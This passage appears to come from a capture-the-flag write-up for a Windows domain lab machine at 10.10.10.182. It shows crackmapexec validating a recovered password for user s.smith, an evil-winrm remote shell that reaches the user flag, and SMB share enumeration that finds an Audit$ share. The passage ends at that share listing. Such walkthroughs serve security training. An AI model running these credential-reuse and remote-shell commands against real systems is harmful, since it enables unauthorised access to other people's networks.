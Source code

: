 Running `crackmapexec` shows the user `s.smith` can authenticate via WinRM:

```bash
crackmapexec winrm 10.10.10.182 -u s.smith -p sT333ve2

SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)
```

Used `evil-winrm` to authenticate and get user flag:

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2

*Evil-WinRM* PS C:\Users\s.smith\Desktop> dir


    Directory: C:\Users\s.smith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/15/2024   1:04 PM             34 user.txt
-a----         2/4/2021   4:24 PM           1031 WinDirStat.lnk
```

# Root Flag

## SMB Enumeration (Part 3)

Used the credentials to enumerate shares again and found a new share titled `Audit$`:

```bash
crackmapexec smb 10.10.10.182 -u s.smith -p sT333ve2 --shares

SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$          READ            
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
```
